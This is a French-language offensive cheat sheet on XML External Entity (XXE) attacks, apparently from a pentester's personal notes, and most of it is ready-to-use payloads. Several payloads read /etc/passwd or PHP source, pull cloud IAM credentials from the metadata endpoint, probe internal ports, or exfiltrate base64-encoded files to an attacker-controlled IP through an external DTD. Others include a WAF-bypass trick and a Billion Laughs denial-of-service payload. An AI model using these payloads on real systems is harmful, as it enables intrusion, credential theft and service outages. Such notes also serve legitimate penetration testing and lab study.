

## Identification des points d'entrée (Content-Type, upload de fichiers, SOAP)
L'XXE ne se limite pas aux formulaires classiques. Il faut inspecter tout point d'entrée acceptant du XML.

- **Content-Type** : Modifier le `Content-Type` d'une requête POST de `application/x-www-form-urlencoded` ou `application/json` vers `application/xml` ou `text/xml` pour forcer le parseur à traiter le corps comme du XML.
- **Upload de fichiers** : Les formats basés sur XML comme `.docx`, `.xlsx`, `.pptx` (fichiers ZIP contenant des fichiers XML) ou les fichiers `.svg` (images vectorielles) sont des vecteurs d'attaque classiques.
- **SOAP** : Les API utilisant SOAP reposent nativement sur le XML. Injecter une DTD dans l'enveloppe SOAP est une méthode standard.

> [!tip]
> Toujours tester l'encodage base64 pour éviter les erreurs de parsing dues aux caractères spéciaux.

## Techniques de bypass de WAF/Filtrage
Les WAF bloquent souvent les mots-clés comme `DOCTYPE` ou `ENTITY`.

- **Encodage des caractères** : Utiliser des encodages alternatifs (UTF-16, UTF-7) si le parseur le supporte.
- **Découpage des entités** : Utiliser des entités paramétrées pour reconstruire le payload.
- **CDATA** : Utiliser des sections `<![CDATA[...]]>` pour masquer les payloads aux filtres basés sur des expressions régulières.

```xml
<!DOCTYPE root [
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % content SYSTEM "file:///etc/passwd">
  <!ENTITY % end "]]>">
  <!ENTITY % full "%start;%content;%end;">
]>
```

## SSRF via XXE
L'XXE permet d'utiliser le serveur cible comme proxy pour scanner le réseau interne ou interagir avec des services locaux (ex: métadonnées cloud, Redis, bases de données).

```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/role">
]>
<root>&xxe;</root>
```

> [!note]
> Voir les notes liées : [[Web]], [[Payloads]], [[Xxe]].

## Énumération des services internes via XXE
En observant les temps de réponse ou les erreurs, il est possible de cartographier les ports ouverts sur le réseau interne (Blind SSRF).

| État | Comportement |
| :--- | :--- |
| Port ouvert | Réponse rapide ou erreur de parsing XML |
| Port fermé | Connexion refusée (Connection refused) |
| Port filtré | Timeout (délai d'attente) |

```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:6379">
]>
<root>&xxe;</root>
```

## DTD externe
L'utilisation d'une DTD externe permet de charger des définitions d'entités depuis un serveur distant contrôlé par l'attaquant.

```xml
<!ENTITY xxe SYSTEM "http://localhost/email.dtd">
```

### Exemple
```xml
<!DOCTYPE email [
  <!ENTITY % xxe SYSTEM "http://10.10.14.121/xxe.dtd">
  %xxe;
]>
```

> [!info]
> La déclaration d'une entité externe `%xxe` permet de charger un fichier `xxe.dtd` distant. Cela autorise l'injection d'entités complexes pour des attaques avancées.

## Lecture de fichier local (LFD)
La lecture de fichiers locaux s'effectue via l'utilisation de l'URI **file://**.

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

### Exemple
```xml
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<email>&xxe;</email>
```

> [!note]
> Si la balise XML est reflétée dans la réponse HTTP, le contenu du fichier est directement visible.

## Lecture de code source (php://filter)
Pour lire des fichiers contenant des caractères spéciaux sans corrompre la structure XML, l'encodage **base64** est utilisé.

```xml
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
```

### Exemple
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<email>&company;</email>
```

> [!tip]
> Après réception de la chaîne, utiliser la commande suivante pour décoder le contenu :
> ```bash
> echo "BASE64_OUTPUT" | base64 -d
> ```

## Injection par erreur de parsing
Cette technique permet d'exfiltrer des données lorsque la réponse n'est pas affichée, mais que les messages d'erreur du parseur sont visibles.

```xml
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

### Exemple
```dtd
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```xml
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://10.10.14.121/xxe.dtd">
  %remote;
  %error;
]>
```

## Exfiltration OOB (Out-of-Band)
L'exfiltration **OOB** est utilisée lors d'attaques **Blind XXE** où aucune donnée n'est renvoyée dans la réponse HTTP.

> [!danger] Prérequis : Nécessite un serveur HTTP contrôlé par l'attaquant pour l'OOB et les DTD externes.

### Exemple
DTD externe (`xxe.dtd`) :
```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.121:8000/?content=%file;'>">
```

Payload XML :
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://10.10.14.121:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

> [!info]
> Le contenu du fichier est encodé en **base64** et envoyé via une requête HTTP GET vers l'IP de l'attaquant, rendant le contenu lisible dans les logs du serveur.

## Attaque DoS (Billion Laughs)
Cette attaque exploite la récursion des entités pour saturer la mémoire du serveur.

> [!warning] Danger : L'attaque DoS (Billion Laughs) peut rendre le service indisponible pour tous les utilisateurs.

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY a0 "LOL">
  <!ENTITY a1 "&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;">
]>
<data>&a4;</data>
```

## Synthèse des vecteurs d'attaque

| Attaque | Utilité principale | Méthode |
| :--- | :--- | :--- |
| Lecture de fichiers texte | Lire `/etc/passwd`, `/etc/hostname` | `file:///...` |
| Lecture de fichiers PHP | Lire `index.php`, `config.php` | `php://filter/...` |
| Révéler contenu via erreur | Erreur XML contrôlée | `%nonExistingEntity;/%file` |
| Exfiltration blind | Serveur vulnérable n’affiche rien | `%file` + `%oob` vers IP |
| DOS | Geler le serveur XML | Billion Laughs |

> [!note]
> Condition critique : Le parseur XML doit être configuré pour autoriser les entités externes (libxml2 par défaut sur certaines versions).

> [!note]
> Voir les notes liées : [[Blind]], [[Xxe]], [[Web]], [[Payloads]].